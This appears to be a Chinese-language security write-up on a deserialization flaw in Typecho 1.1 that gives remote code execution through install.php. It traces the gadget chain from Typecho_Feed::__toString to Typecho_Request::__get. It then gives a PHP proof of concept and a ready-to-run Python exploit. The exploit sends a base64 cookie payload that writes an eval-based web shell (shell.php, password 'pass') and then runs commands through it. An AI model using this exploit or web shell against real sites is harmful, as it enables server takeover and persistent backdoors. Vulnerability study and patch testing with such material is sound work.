


Typecho 1.1 反序列化漏洞导致前台getshell
========================================

一、漏洞简介
------------

二、漏洞影响
------------

Typecho 1.1

三、复现过程
------------

### 漏洞分析

复现环境：PHP5.6+Apache+Windows


`Typecho_Cookie::get`目的是获取Cookie，可从Cookie或POST中获取


要执行到此处需要经过前面的各种判断条件：

1.  \$\_GET\['finish'\] 不为空
2.  \$\_SERVER\['HTTP\_REFERER'\] 不为空

```{=html}
<!-- -->
```
    //判断是否已经安装
    if (!isset($_GET['finish']) && file_exists(__TYPECHO_ROOT_DIR__ . '/config.inc.php') && empty($_SESSION['typecho'])) {
        exit;
    }
    // 挡掉可能的跨站请求
    if (!empty($_GET) || !empty($_POST)) {
        if (empty($_SERVER['HTTP_REFERER'])) {
            exit;
        }
    }

接下来需要寻找利用链，常见魔法方法：

    __construct()//创建对象时触发
    __destruct() //对象被销毁时触发
    __call() //在对象上下文中调用不可访问的方法时触发
    __callStatic() //在静态上下文中调用不可访问的方法时触发
    __get() //用于从不可访问的属性读取数据
    __set() //用于将数据写入不可访问的属性
    __isset() //在不可访问的属性上调用isset()或empty()触发
    __unset() //在不可访问的属性上使用unset()时触发
    __invoke() //当脚本尝试将对象调用为函数时触发
    __wakeup() //使用unserialize时触发
    __sleep() //使用serialize时触发
    __toString()//类当String用

误以为是通过\_\_desctruct()和\_\_wakeup()触发，没想到起始是利用\_\_toString()，接着通过\_\_get()触发。

回到`install.php`中看232行中\$config\['adapter'\]作为了Typecho\_Db()参数，只要控制\$config\['adapter'\]的值为某一个类的对象就可以触发\_\_toString()，那么\$config的值应为一个数组。


接下来寻找\_\_toString()方法，在`var/Typecho/Feed.php`中找到


\$item可控，如果\$item\['author'\]为某个不存在screenName属性的类对象时，自动触发\_\_get()方法`var/Typecho/Request.php`，如下图，显然可控吧\~



### 漏洞复现

根据漏洞分析写出poc

    <?php
    class Typecho_Request{
        private $_params = array();
        private $_filter = array();

        public function __construct(){
            $this->_params = array("screenName"=>"id");
            $this->_filter = array("system");
        }
    }

    class Typecho_Feed{
        private $_items = array();
        private $_type;

        public function __construct(){
            $this->_items = array(
                array(
                    "author"=>new Typecho_Request(),
                    "link"=>"link",
                    "title"=>"title",
                    "date"=>"date",
                    "category"=>array(new Typecho_Request()),#注意点
                )
            );
            $this->_type = "RSS 2.0";
        }
    }

    $a =  array("adapter"=>new Typecho_Feed());
    #echo serialize(($a))."\n";
    echo base64_encode(serialize(($a)))."\n";

> 关于poc中注意点说明：
>
> 在漏洞分析时并没有涉及该行相关数据，在没有这一行数据时：
>
> 程序继续进入到Db.php的构造方法中，并在下图汇总抛出异常



如果是命令是写入文件，则不会影响结果，但如果需要显示命令结果，则无法实现，因而考虑在抛出异常之前结束运行程序运行


最终结果


Python脚本，**仅用作学习目的**

    import sys
    import requests

    class Typecho_install_getshell_Test:
        def __init__(self,url):
            self.url = url

        def run(self):
            headers = {
                "User-Agent":"Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36",
                "Cookie":"__typecho_config=YToxOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6Mjp7czoyMDoiAFR5cGVjaG9fRmVlZABfaXRlbXMiO2E6MTp7aTowO2E6NTp7czo2OiJhdXRob3IiO086MTU6IlR5cGVjaG9fUmVxdWVzdCI6Mjp7czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfcGFyYW1zIjthOjE6e3M6MTA6InNjcmVlbk5hbWUiO3M6NjU6ImZpbGVfcHV0X2NvbnRlbnRzKCdzaGVsbC5waHAnLCc8P3BocCBAZXZhbCgkX1BPU1RbXCdwYXNzXCddKTs/PicpIjt9czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfZmlsdGVyIjthOjE6e2k6MDtzOjY6ImFzc2VydCI7fX1zOjQ6ImxpbmsiO3M6NDoibGluayI7czo1OiJ0aXRsZSI7czo1OiJ0aXRsZSI7czo0OiJkYXRlIjtzOjQ6ImRhdGUiO3M6ODoiY2F0ZWdvcnkiO2E6MTp7aTowO086MTU6IlR5cGVjaG9fUmVxdWVzdCI6Mjp7czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfcGFyYW1zIjthOjE6e3M6MTA6InNjcmVlbk5hbWUiO3M6NjU6ImZpbGVfcHV0X2NvbnRlbnRzKCdzaGVsbC5waHAnLCc8P3BocCBAZXZhbCgkX1BPU1RbXCdwYXNzXCddKTs/PicpIjt9czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfZmlsdGVyIjthOjE6e2k6MDtzOjY6ImFzc2VydCI7fX19fX1zOjE5OiIAVHlwZWNob19GZWVkAF90eXBlIjtzOjc6IlJTUyAyLjAiO319;XDEBUG_SESSION=15908",
                "Referer":self.url,
            }
            vulnpath = self.url + "/install.php?finish=1"
            try:
                requests.get(vulnpath,headers=headers,timeout=10)
                shellpath = self.url + "shell.php"
                data = {
                    "pass":"phpinfo();",
                }
                re = requests.post(shellpath,headers=headers,data=data,timeout=10)
                re.encoding = re.apparent_encoding
                if "Configure Command " in re.text:
                    print("[+]Typecho反序列化漏洞存在! \nPayload: "+ shellpath + "\tPassWord: pass")
                else:
                    print("[-]Typecho漏洞可能不存在!")
            except:
                print("[-]Something wrong!")

    if __name__ == "__main__":
        Vuln = Typecho_install_getshell_Test(sys.argv[1])
        Vuln.run()

参考链接
--------

> http://pines404.online/2020/01/25/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/Typecho%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/
